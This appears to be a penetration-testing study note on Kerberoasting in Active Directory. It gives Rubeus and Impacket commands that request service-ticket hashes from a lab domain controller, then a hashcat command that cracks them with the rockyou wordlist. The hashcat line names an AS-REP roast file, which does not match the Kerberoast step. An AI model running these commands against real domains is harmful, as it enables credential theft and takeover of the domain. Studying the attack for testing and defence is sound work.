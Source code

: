 #activedirectory #cracking 

#### Rubeus

```cmd
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

#### Impacket

```bash
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```

Crack it Using

```bash
sudo hashcat -m 13100 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

Etype is mentioned in the hash "$krb5tgs\$23\$"


